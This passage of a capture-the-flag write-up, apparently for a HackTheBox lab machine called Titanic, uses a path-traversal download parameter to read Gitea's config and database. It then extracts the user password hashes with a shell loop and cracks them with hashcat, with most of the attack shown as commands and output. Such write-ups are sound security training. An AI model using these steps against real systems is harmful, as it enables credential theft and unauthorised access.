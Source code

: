 
The Gitea directory structure is a bit of a mystery, but google knows all, and from [https://docs.gitea.com/administration/config-cheat-sheet](https://docs.gitea.com/administration/config-cheat-sheet) we learn a lot! Notice the pathname below `volumes:`, this is important because it will tell you where the gitea configuration file, gitea/conf/app.ini, is located. With that, we should be able to locate the Gitea database, gitea.db, which is of interest, because it holds the credentials of its users.


```
$ curl http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/conf/app.ini 
```

```
[...]

[database]
PATH = /data/gitea/gitea.db
DB_TYPE = sqlite3
HOST = localhost:3306

[...]
```

Armed with this information, you can now download the gitea database:

```
$ curl --output gitea.db http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db
```

The gitea.db is a sqlite3 file, and although it might appear a bit overwhelming at first glance, there's a very good tutorial on how to disect it by 0xdf hacks stuff here: [https://0xdf.gitlab.io/2024/12/14/htb-compiled.html](https://0xdf.gitlab.io/2024/12/14/htb-compiled.html)

For completion here's the snippet that will translate the relevant part of gitea.db to be used in hashcat:  

```
$ sqlite3 gitea.db "select passwd,salt,name from user" | \
    while read data
    do
        digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64)
        salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64)
        name=$(echo $data | cut -d'|' -f 3)
        echo "${name}:sha256:50000:${salt}:${digest}"
done | \
    tee gitea.hashes 
administrator:sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

Let's run hashcat on that!

```
$ hashcat ./gitea.hashes /usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt --user       
hashcat (v6.2.6) starting in autodetect mode

[...]

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

10900 | PBKDF2-HMAC-SHA256 | Generic KDF

[...]

```